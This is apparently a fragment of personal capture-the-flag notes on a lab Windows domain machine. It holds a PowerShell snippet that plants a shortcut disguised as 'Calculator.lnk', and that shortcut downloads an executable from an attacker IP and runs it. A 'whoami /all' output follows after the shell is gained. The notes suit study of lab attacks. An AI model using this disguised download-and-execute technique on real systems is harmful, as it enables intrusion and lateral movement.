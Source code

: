 ```
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

## guessing lateral moviment with .lnk file

- https://medium.com/@dbilanoski/how-to-tuesdays-shortcuts-with-powershell-how-to-make-customize-and-point-them-to-places-1ee528af2763


```
$WScriptShell = New-Object -ComObject WScript.Shell

$Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Calculator.lnk")

$Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

$Shortcut.Arguments = "curl http://10.10.14.255:8000/xeu2.exe -o C:\xampp\htdocs\xeu2.exe; C:\xampp\htdocs\xeu2.exe"

$Shortcut.save()
```

## shell as brandon.keywarp

```
whoami /all

USER INFORMATION
----------------

User Name            SID                                           
==================== ==============================================
mist\brandon.keywarp S-1-5-21-1045809509-3006658589-2426055941-1110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
```